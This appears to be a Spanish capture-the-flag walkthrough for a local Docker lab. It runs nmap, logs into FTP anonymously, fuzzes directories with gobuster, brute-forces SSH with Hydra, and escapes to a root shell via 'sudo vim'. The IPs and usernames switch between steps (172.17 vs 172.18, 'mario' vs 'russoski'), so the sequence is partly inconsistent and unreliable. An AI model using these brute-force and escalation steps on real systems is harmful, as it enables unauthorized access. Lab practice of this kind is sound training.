 Desplegamos el contenedor:

```Bash
bash auto_deploy.sh trust.tar
```

![Pasted image 20250131110723](https://github.com/user-attachments/assets/b1f1cd84-a5c4-4914-a8eb-4f53f3b71781)

Escaneamos la IP:

```Bash
nmap -sV -sC -sS -T 5 -n -Pn -p- 172.17.0.2
```

![Pasted image 20250131110822](https://github.com/user-attachments/assets/7176c822-982d-4a7a-a739-e3ceae288b94)

Nos conectamos con **FTP**:

```Bash
ftp 172.17.0.2
```

![Pasted image 20250131110950](https://github.com/user-attachments/assets/7d69d7c3-99d5-4301-92f7-d49ddd20d4e8)

```Bash
anonymous
```

![Pasted image 20250131111006](https://github.com/user-attachments/assets/ed0a8fda-cb02-4647-bba1-e667559ac2c6)

```Bash
'blank'
```

![Pasted image 20250131111028](https://github.com/user-attachments/assets/a6d83050-c79d-4f36-aff1-be7bb7c23ed2)

```Bash
ls
```

![Pasted image 20250131111046](https://github.com/user-attachments/assets/4a58769f-7bb5-4fc0-944f-acc85656b44d)

```Bash
get chat-gonza.txt pendientes.txt
```

![Pasted image 20250131111122](https://github.com/user-attachments/assets/459a8287-3383-438c-baa1-f28ab27a9b90)

```Bash
cat chat-gonza.txt
```

![Pasted image 20250131111157](https://github.com/user-attachments/assets/ca8585db-241d-4202-ac53-2479bd642adc)

```Bash
cat pendientes.txt
```

![Pasted image 20250131111325](https://github.com/user-attachments/assets/33a8dc58-9d67-41cf-8d01-4a49f7ed0c1b)

Encontramos 3 nombres así que vamos a explorar un poco más.

Hacemos **Fuzzing**:

```Bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,php,py,sh,txt
```

![Pasted image 20250131112740](https://github.com/user-attachments/assets/60246d48-8009-42dd-8143-88b7694ba0c6)

Nos metemos en la web:

![Pasted image 20250131111923](https://github.com/user-attachments/assets/ee67a67f-d53a-40c7-beb3-4553d0002189)

![Pasted image 20250131111936](https://github.com/user-attachments/assets/a70e3105-411b-426d-a2de-74d8d90ad78d)

Fuerza Bruta con **Hydra**:

```Bash
hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://172.18.0.2
```

![Pasted image 20250131112040](https://github.com/user-attachments/assets/3c212e52-3257-4b00-bf4f-b81fdf6dfd2f)

Nos conectamos con **SSH**:

```Bash
ssh russoski@172.18.0.2
```

![Pasted image 20250131112159](https://github.com/user-attachments/assets/738719a0-9f37-4723-a3dd-344a7e25b8cd)

Elevamos privilegios:

```Bash
sudo -l
```

![Pasted image 20250131112216](https://github.com/user-attachments/assets/e359d554-3b6c-4472-ba7b-b2de642f85f6)

```Bash
sudo vim -c ':!/bin/bash'
```

![Pasted image 20250131112620](https://github.com/user-attachments/assets/1fc91096-29cd-4bc3-b3de-c7eb18b50ae4)

```Bash
whoami
```

![Pasted image 20250131112638](https://github.com/user-attachments/assets/c785a0b2-f77f-43ef-9a86-d9037f1de625)
